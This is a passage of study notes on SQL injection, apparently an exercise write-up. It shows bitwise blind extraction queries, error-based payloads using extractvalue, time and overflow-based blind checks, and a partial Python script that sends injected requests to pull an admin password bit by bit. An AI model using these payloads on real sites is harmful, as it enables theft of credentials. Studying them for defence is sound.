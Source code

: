 #### Bit Calculation : ascii letter can express range from 0 to 127 so that we can express it also with 7 bit. By using repeat of exploit statement including useful function like `bin` and `substr`, we can find password

> example
>
> ```sql
> mysql> select * from users where username='admin' and substr(bin(ord(password)),1,1)=1;
> mysql> select * from users where username='admin' and substr(bin(ord(password)),2,1)=1;
> ...
> mysql> select * from users where username='admin' and substr(bin(ord(password)),7,1)=1;
> ```  

#### Error based SQLi : Cause error voluntarily to get info about target(OS info, database info, ...). Target web application is required to turnned on debug mode or to have error exception handling.  
> example
> ```sql
> SELECT extractvalue(1,concat(0x3a,version()));
> # extractvalue(XML, XPATH) function extract value from XML with XPATH. If XPATH is incorrect, it return error message __with incorrect construction__.
> SELECT extractvalue(1,concat(0x3a,(subquery));
> ```  

#### Error based Blind SQLi : Error based SQLi + Blind SQLi : It use contitional statement and short circuit evaluation. From this, we can test if our statement is true.
> example
> ```sql
> mysql> select if(1=1, 9e307*2,0)
> mysql> select if(1=1, sleep(10),0) #Same with Time Based SQLi conception
>  /* ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)' */
> mysql> SELECT 0 AND SLEEP(1);
> mysql> SELECT 1 AND SLEEP(10);
> ```  

<br />

## Exercise : blind sqli advanced  
#### step 1. find length of password  
```py
def find_length():
    i = 1;
    while True:
        query = f"admin' and upw regexp '.{{{i}}}"
        resp = requests.get(f"{host}?uid={query}")
        if 'exist' not in resp.text:
            return i-1;
        i += 1
```
#### step 2. find bit length of each password character  
```py
def find_bit_length():
    bit_length_db=[]
    for i in range(1, 14):
        bit_length = 0
        while True:
            query = f"admin' and char_length(bin(ord(substr(upw, {i},1)))) = '{bit_length}"
            resp = requests.get(f"{host}?uid={query}")
            if 'exist' in resp.text:
                #print(bit_length)
```